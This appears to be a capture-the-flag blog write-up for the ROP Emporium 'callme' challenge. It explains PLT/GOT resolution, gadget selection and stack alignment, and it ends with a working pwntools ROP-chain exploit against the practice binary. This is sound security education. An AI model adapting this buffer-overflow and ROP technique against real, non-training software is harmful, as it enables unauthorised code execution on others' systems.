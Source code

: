 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "list"
title: "ROPEmporium: callme"
excerpt: "'callme' focuses on leveraging the PLT in order to call functions whose addresses is not resolved until runtime."
category: "pwn"
---
```

## Preface
'callme' focuses on leveraging the PLT in order to call functions whose addresses is not resolved until runtime.

Challenges can be found [here](https://ropemporium.com/).
### File Information
Running the file, we are met with the following:

![Initial Run]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/initialrun.png)

Note that the buffer overflow still exists (offset is the same), allowing us to overwrite the return address. However, this time around our objective is the following:

>You must call the **callme_one()**, **callme_two()** and **callme_three()** functions in that order, each with the arguments **0xdeadbeef**, **0xcafebabe**, **0xd00df00d** e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

However, these functions are not in our binary. 

Instead, they are dynamically linked at runtime, so we need a way to consistently call them. We are given a `libcallme.so` file where these functions are stored.

Our checksec remains the same.

![Checksec]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/checksec.png)
### Decompilation
Our useful function is a bit different this time. Instead of making a call to `system()`, it instead calls our three functions with random paramters. However, we can leverage this by setting up the registers with the desired values and calling these functions ourself. 
```c
void usefulFunction(void)
{
  callme_three(4,5,6);
  callme_two(4,5,6);
  callme_one(4,5,6);
  exit(1);
}
```
First though, we need to figure out the addresses of these functions.

### Understanding the PLT and GOT
Notice that when we click on any of the three functions, Ghidra brings us to a "thunk" function:

![Thunked Function]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/thunk.png)

Similarly, GDB shows us that the function calls are to a place called `function@plt`. So, what exactly is this?

![PLT Call]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/pltcall.png)

The PLT (Procedure Linking Table) is primarily used by the program to call functions that are **dynamically linked** and thus unknown until runtime. Instead of making calls directly to the function, the program will call the PLT in order to ensure that the addresses are correct.

The PLT is responsible for resolving the address if it has not yet been called before. To do so, it calls [`ld.so`](https://man7.org/linux/man-pages/man8/ld.so.8.html), which returns the function address. This address is then patched in the GOT so that future calls will directly go to the function.

The GOT (Global Offset Table) itself is a table of addresses that is usually built during runtime and contains the actual addresses of functions, even after address space randomization.

For our purposes, we should know that <u>calling the PLT is essentially the same as calling the function itself</u>, since it will fetch the runtime address and call it for us.

For more information about this, see:
- [GOT and PLT for pwning](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
- [StackExchange PLT and GOT](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got)
- [In-Depth PLT and GOT explanation](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html)
- [GOT and PLT exploitaton](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)
- [ROPEmporium explanation](https://ropemporium.com/guide.html#Appendix%20A)

### Finding Addresses and Gadgets
To find the PLT addresses for our three functions, we can look at the disassembly in GDB. The addresses labelled are the ones that we want to call, because they are basically the equivalent of calling the function itself.

![PLT Call]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/pltcall.png)

We also need a gadget to populate our registers for us. Since each function needs three arguments, we need gadgets that can populate the first three registers in x64 calling convention:

`RDI, RSI, RDX, RCX, R8 and R9`

So let's try searching for gadgets that can populate RDI, RSI, and RDX. Luckily the challenge made it easy for us, and we find a gadget that does all three.

![Useful Gadget]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/gadget.png)

With this, we can build our ROP chain!
### Building ROP Chain
A quick recap:
We need to populate our three registers by calling our gadget and feeding it the desired arguments. Then, we can call the PLT address of our function.

We need to repeat this process a total of three times for each function.

This begs the question: *why can't you just set the registers once instead of repeating it three times for each function?*

The primary reason for this is due to architecture **callee vs caller** register designations.

In short, callee registers are expected to be preserved by the function, meaning it will retain the same value after the function call. Caller registers may be changed, meaning it is the caller's responsibility to save them before calling. There is no guarantee that these registers won't be clobbered.

In the below diagram, callee and caller registers are labelled:

![Callee vs Caller]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/registers.png)

Notice that RDI, RSI, and RDX are all caller saved. This means we need to set them again everytime we call a function.
### Fixing Alignment
Even though our script seems to be correct, we still aren't getting the flag. We aren't hitting the checks for our function calls either.

Let's do a little debugging. We can attach a GDB window using the `gdb.attach()` command in pwntools.

![MOVAPS Segfault]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/gdb.png)

Doing this shows us that we are indeed segfaulting on a MOVAPS instruction. This means our stack alignment is off, so all we need to do is add a `ret` instruction before our chain.

With that change, the script works as expected and we get the flag!

![Win]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/callme/win.png)
### Final Script
```python
from pwn import *

p = process('./callme') # gdb.attach(p)
# Gadgets
FUNC_1_PLT = 0x400720
FUNC_2_PLT = 0x400740
FUNC_3_PLT = 0x4006f0
POP_RDI_RSI_RDX = 0x000000000040093c
RET = 0x00000000004006be
# Payload
payload = b'A'*40
payload += p64(RET)
payload += p64(POP_RDI_RSI_RDX)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(FUNC_1_PLT)
payload += p64(POP_RDI_RSI_RDX)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(FUNC_2_PLT)
payload += p64(POP_RDI_RSI_RDX)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(FUNC_3_PLT)

p.sendline(payload)
p.interactive()
```
